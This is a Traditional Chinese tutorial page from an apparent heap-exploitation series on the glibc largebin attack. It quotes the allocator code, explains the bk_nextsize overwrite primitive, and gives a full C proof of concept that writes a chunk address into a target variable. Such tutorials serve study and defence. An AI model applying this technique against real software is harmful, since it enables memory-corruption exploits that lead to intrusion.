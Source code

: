 ```yaml
---
title: "Largebin Attack"
date: 2025-03-27
series: ["Heap Exploitation"]
series_order: 12
---
```


|||
|-|-|
|版本|latest|
|效果|使目標被修改為某個chunk|

## unsortedbin放chunk回largebin的情況

### 如果size為比bin鍊最後一塊(同時也是最小塊)還小，就直接插入尾端

```c
if ((unsigned long)(size) < (unsigned long)chunksize_nomask(bck->bk))
{
    fwd = bck;
    bck = bck->bk;

    victim->fd_nextsize = fwd->fd;
    victim->bk_nextsize = fwd->fd->bk_nextsize;
    fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
}
```

### 主要攻擊點

```c
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
```

達成以下條件，就能使`target`被寫入`victim`:  

- 我們可以控制`victim->bk_nextsize`為`target - 0x20`
- 接下來放入的chunk是比該bin鍊的所有chunk還小

## exploit

### 完整腳本

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

int main(){
    /*Disable IO buffering to prevent stream from interfering with heap*/
    setvbuf(stdin,NULL,_IONBF,0);
    setvbuf(stdout,NULL,_IONBF,0);
    setvbuf(stderr,NULL,_IONBF,0);


    size_t target = 0xdeadbeef;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);
    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);

    free(p1);
    size_t *g3 = malloc(0x438);

    free(p2);

    p1[3] = (size_t)((&target)-4);

    size_t *g4 = malloc(0x438);

    printf("Target (%p) : %p\n",&target,(size_t*)target);
    assert((size_t)(p2-2) == target);

    return 0;
}
```

### 先宣告兩個大chunk

```c
int main(){
    /*Disable IO buffering to prevent stream from interfering with heap*/
    setvbuf(stdin,NULL,_IONBF,0);
    setvbuf(stdout,NULL,_IONBF,0);
    setvbuf(stderr,NULL,_IONBF,0);


    size_t target = 0xdeadbeef;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);
    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);
```

### 把其中一個丟進largebin

```c
    free(p1);
    size_t *g3 = malloc(0x438);
```

![alt text](image.png)

### 現在第二個chunk在unsortedbin

```c
    free(p2);
```

![alt text](image-1.png)

### 修改第一個chunk的bk_nextsize

```c
    p1[3] = (size_t)((&target)-4);
```

### 把第二個chunk從unsortedbin丟回largebin

```c
    size_t *g4 = malloc(0x438);
```

![alt text](image-2.png)

![alt text](image-3.png)
